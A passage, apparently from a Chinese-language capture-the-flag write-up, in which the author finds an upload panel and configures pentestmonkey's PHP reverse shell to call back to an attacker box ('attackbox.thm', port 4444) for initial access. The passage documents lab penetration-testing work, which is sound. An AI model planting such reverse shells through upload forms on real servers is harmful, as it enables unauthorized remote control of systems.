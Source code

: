 ```
[redacted] Finished
```

我注意到了`/panel/`和`/uploads/`子目录，我将首先用我的攻击箱的网络浏览器导航到`/panel/`。图 3 描述了浏览器返回的内容:

![](img/8dd3aa6e7bfa7d1f12d7436dc9595265.png)

图 3

我认为这是一种我可以上传文件的机制。我将尝试利用它来上传一个机制，通过它我可以启动一个反向外壳。

## 初始访问

我考虑了我可以上传到网络服务器的不同种类的植入，我决定尝试使用由[“pentest monkey”(n . d .)](https://github.com/pentestmonkey/php-reverse-shell)创建的反向 PHP shell。我将其配置为向我的攻击箱报告:

```
[... snip ...]

set_time_limit (0);
$VERSION = "1.0";
$ip = 'attackbox.thm';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;

[... snip ...]
```
